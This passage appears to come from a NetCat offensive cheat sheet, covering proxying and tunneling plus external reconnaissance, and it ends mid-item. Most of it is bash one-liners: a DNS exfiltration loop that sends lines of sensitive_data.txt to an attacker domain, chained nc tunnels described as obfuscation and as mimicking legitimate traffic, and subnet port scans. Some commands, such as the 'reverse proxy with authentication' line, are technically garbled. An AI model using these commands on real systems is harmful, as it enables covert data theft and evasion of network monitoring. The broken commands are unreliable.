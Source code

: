 #### Proxying and Tunneling

1. **SOCKS5 Proxy Setup via SSH and NetCat**: Establishes a SOCKS5 proxy using SSH, with NetCat routing traffic through the tunnel.
    ```bash
   

 ssh -D <local_port> -f -C -q -N user@<remote_host>
    # Use NetCat to proxy connections through the SOCKS5 tunnel
    nc -x 127.0.0.1:<local_port> <target_ip> <target_port>
    ```
2. **Layered Tunneling for Obfuscation**: Creates a complex layered tunnel that obfuscates traffic by passing it through multiple intermediate nodes.
    ```bash
    mkfifo /tmp/fifo1; mkfifo /tmp/fifo2
    nc -l -p <local_port> < /tmp/fifo1 | nc -w 3 <proxy_ip> <proxy_port> | nc <target_ip> <target_port> > /tmp/fifo2 &
    cat /tmp/fifo2 > /tmp/fifo1
    ```
3. **Chained Tunnels with Traffic Shaping**: Chains multiple tunnels and adds traffic shaping to mimic legitimate network behavior.
    ```bash
    tc qdisc add dev eth0 root netem delay 100ms
    nc -l -p <local_port1> | nc <intermediate_ip1> <intermediate_port1> | 
    nc <intermediate_ip2> <intermediate_port2> | nc <target_ip> <target_port>
    ```
4. **Reverse Proxy with Authentication**: Configures a reverse proxy that requires HTTP authentication, adding a layer of security to the tunnel.
    ```bash
    nc -l -p <attack_port> -e /usr/sbin/httpd -c "htpasswd -c /etc/apache2/.htpasswd user; echo 'Authentication required'; exit"
    # On the attacker's machine:
    nc <target_ip> <target_port> <response_file
    ```
5. **DNS Tunneling for Data Exfiltration**: Exfiltrates data using DNS requests, which can often bypass traditional security mechanisms.
    ```bash
    while read line; do nslookup $line.<attack_domain>; done < sensitive_data.txt
    ```

# Penetration Testing Techniques

#### External Reconnaissance

NetCat's versatility extends to external reconnaissance, where it can be used to map out networks, identify open ports, and fingerprint services.

1. **Advanced Network Discovery**: Scans an entire network subnet for open ports, providing a broad overview of the network landscape.
    ```bash
    for ip in $(seq 1 254); do nc -zv <network_prefix>.$ip 1-1024; done
    ```
2. **Service Fingerprinting**: Crafts specific requests to fingerprint services running on a target.
    ```bash
    nc -v <target_ip> <target_port> -c "echo 'GET / HTTP/1.1\r\nHost: <target_ip>\r\n\r\n'"
    ```
3. **OS Detection via Timing Analysis**: Analyzes response times to infer details about the target operating system.
    ```bash
    nc -v -n -z -w 1 <target_ip> <target_port>